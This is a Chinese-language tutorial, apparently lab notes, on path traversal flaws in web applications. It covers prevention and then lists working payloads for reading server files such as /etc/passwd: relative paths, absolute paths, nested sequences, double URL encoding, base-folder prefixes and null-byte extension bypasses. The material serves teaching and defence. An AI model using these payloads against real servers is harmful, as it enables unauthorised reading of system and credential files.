







## Path traversal 路径遍历


路径遍历也称为目录遍历，这些漏洞使攻击者能够读取运行应用程序的服务器上的任意文件

在Web应用程序中，如果允许用户输入文件路径而未进行适当的验证，攻击者可能通过输入像`../../`这样的相对路径，尝试访问服务器上的敏感文件，例如配置文件、密码文件或其他重要数据

路径穿越有时被视为路径遍历的同义词，但在某些语境下，路径穿越更强调攻击者通过特定路径访问系统文件的行为，而不仅仅是漏洞本身。因此，路径穿越可能侧重于攻击行为的实施，而路径遍历可能更多地关注漏洞的存在。

## 如何防止路径遍历攻击

1. 防止路径遍历漏洞的最有效方法是完全避免将用户提供的输入传递给文件系统 API

2. 如果无法避免将用户提供的输入传递给文件系统 API，建议使用两层防御来防止攻击：

   - 过滤`../`，一定条件设置白名单

   - 将输入和基目录拼接，使用文件系统API对路径进行规范化，验证是否以基目录开头

## 实验

### 文件路径遍历（简单情况）

图片显示路径存在目录遍历


这是一个购物应用程序，它显示待售商品的图像。这可能会使用以下 HTML 加载图像：

```

```

当我们输入`../../../etc/passwd`，拼接完成如下：

```
/var/www/images/../../../etc/passwd
```

在基于 Unix 的作系统上，这是一个标准文件，其中包含服务器上注册的用户的详细信息，但攻击者可以使用相同的技术检索其他任意文件

在 Windows 上，两者都 `../` 和 `..\` 是有效的目录遍历序列。以下是针对基于 Windows 的服务器的等效攻击示例：

```
/loadImage?filename=..\..\..\windows\win.ini
```



### 绝对路径绕过 bypass

在不能够使用相对路径的情况下，也许可以使用来自文件系统根目录的绝对路径，例如filename=/etc/passwd直接引用文件，而无需使用任何遍历序列



### 双写、嵌套绕过 bypass

当`../`和`..\`被替换为空，你可以使用嵌套的遍历序列，比如：`....//`或者`....\/`

```
/image?filename=....//....//....//etc/passwd
```



### URL编码绕过 bypass

在某些情况下，例如在 URL 路径或请求`filename`参数中`multipart/form-data`，Web  服务器可能会在将**输入传递给应用程序之前**g过滤任何目录遍历序列

您有时可以通过 URL 编码，甚至双重 URL  编码，绕过这种清理，这些`…/`字符分别产生`%2e%2e%2f`或`%252e%252e%252f`。各种非标准编码，例如`…%c0%afor`  `…%ef%bc%8f`，也可以解决问题。

双重 URL 编码绕过



```
%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252fetc%252fpasswd
或者
.%252e%252f.%252e%252f.%252e%252f.%252e%252f.%252e%252f.%252e%252f.%252e%252f.%252e%252f.%252e%252f.%252e%252f.%252e%252f.%252e%252fetc/hosts
或者
%2e%25252e%25252f%2e%25252e%25252f%2e%25252e%25252f%2e%25252e%25252f%2e%25252e%25252f%2e%25252e%25252f%2e%25252e%25252f%2e%25252e%25252f%2e%25252e%25252f%2e%25252e%25252f%2e%25252e%25252f%2e%25252e%25252fetc%2fhosts
```



### 路径起始确认

应用程序通过请求参数传输完整的文件路径，并验证所提供的路径是否以预期的文件夹开头。

应用程序可能要求用户提供的文件名以预期的基本文件夹开头，例如`/var/www/images`

在这种情况下，可以包括所需的基文件夹，然后是合适的遍历序列

例如：`filename=/var/www/images/../ etc/passwd`



### 空字节 拓展名绕过 bypass

应用程序可能要求用户提供的文件名以预期的文件扩展名（如. png）结尾。

在这种情况下，可以使用空字节在所需扩展名之前有效地终止文件路径。

例如：`filename=../ etc/passwd%00.png`

URL中的`%00（只要是这种%xx）`的形式，`webserver`会把它当作十六进制处理，然后把16进制的hex自动翻译成ascii码值`NULL`,实现了截断

在许多编程语言和系统中，字符串是以空字符` \0 `作为结束标志的。这意味着在处理字符串时，遇到空字符时将停止读取该字符串。

因此，如果在文件名中插入`%00（即空字符）`，后续的所有字符都将被忽略



参考：

https://lddp.github.io/2018/11/21/WEB-00%E6%88%AA%E6%96%AD%E4%B8%8E-00%E6%88%AA%E6%96%AD/#toc-heading-1

https://blog.csdn.net/qq_50296568/article/details/141551984


